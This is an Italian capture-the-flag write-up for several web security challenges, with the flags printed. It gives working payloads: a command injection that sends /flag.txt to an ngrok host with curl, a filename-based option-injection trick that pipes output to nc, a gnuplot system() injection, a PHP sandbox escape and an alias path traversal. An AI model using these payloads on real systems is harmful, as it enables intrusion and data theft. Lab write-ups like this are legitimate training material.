 # Web Security
## Basic RCE
Usare ngrok, farlo partire ./ngok http 5000
Sul ping utilizzare le variabili di ambiente e scrivere:
```bash
google.com; curl${IFS}-F${IFS}'flag=@/flag.txt'${IFS}http://8ca2d7c8.ngrok.io
```
Prima di pingare far partire `nc -lvp 5000` per aprire la porta poi premere su ping, ed appare la flag su nc.

## PHPislovePHPislife
```php
}; print ${$strings{4}} ?>  // CCIT{Wh4t_Ar3_You_Do1ng_ou7_of_My_Sandb0x}
```

## Zip Zap lvl 2
Creare due file:
```bash
touch -- -T
touch -- -TT
```
Creare l'exploit, chiamato ex.sh che contiene:
```bash
#!/bin/bash
../../../../getflag | nc tcp.ngrok.io porta
```
Si avranno ora 3 file: `-T, -TT, ex.sh`
Creare un altro file:
```bash
touch "bash ex.sh"
```
Che invoca il file ad eseguirlo.

Zippare tutto con: `zip -- *`
Aprire la porta con cui si è fatto partire ngrok.
Mandare lo zip al server, dovrebbe dare internal server error, e la flag appare su nc -> `CCIT{N0t_en0ugh_Quot3s}`


## Plotty Boy
Si applica una concatenzazione di comandi separati da ';'.
```gnuplot
sin(x); system "ngrok ...".
```
nc aperto sempre sulla porta di ngrok ed appare la flag -> `CCIT{Pl0ttyb01_4_A_sin3Boy}`.


## 302Camo
Pubblicare un post, [img]ngrok ...[/img]
Tenere ngrok attivo e nc -lvp 5000 (porta con cui abbiamo startato ngrok).
Fare un curl di url -> ispezione immagine di camo -> mettere \ dopo = e & ed appare la flag `CCIT{PHP_s0met1ms_1ts_funn1}`


## Not a Bug. It's a Feature
Se si vede il sorgente la falg si trova su app.py, ma possiamo accedere solo a static dal file .conf, che è un alias.
Se faccioamo static/../app.py (cercando di retrocedere di una cartella) non va, con static../app.py appare la flag `CCIT{put_4_sl4sh_1n_th0s3_ali4s3s!}`.
